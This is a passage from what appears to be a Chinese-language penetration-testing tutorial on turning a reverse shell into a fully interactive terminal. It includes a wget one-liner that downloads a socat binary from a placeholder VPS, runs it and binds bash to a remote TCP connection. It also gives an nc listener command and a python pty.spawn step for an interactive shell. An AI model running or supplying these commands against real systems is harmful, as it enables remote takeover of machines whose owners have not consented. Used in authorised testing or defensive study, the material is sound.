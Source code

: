 在渗透测试中，如果想更好的使用 socat ，大家可以使用下面的脚本生成静态编译的 socat

```text
https://github.com/andrew-d/static-binaries/tree/master/socat/build.sh
```

然后将 socat 放到 VPS 上，远程下载执行

```text
wget -q https://xxx.com/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:8080
```

#### 2、pty + 重置终端

"pty + 重置终端 " 的方式真的很奇妙， 强制反弹 shell 匹配控制端的本地终端。在控制端：

1、首先检查当前终端和 STTY 信息

```text
echo $TERM
stty -a
```

2、nc 开启监听

```text
nc -lvp 8080
```

![](../../.gitbook/assets/image%20%28453%29.png)

在被控端，只需要使用一个普通的反弹 shell 连接到控制端即可，剩下的工作在控制端做就可以了

3、启用 python 交互式

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```
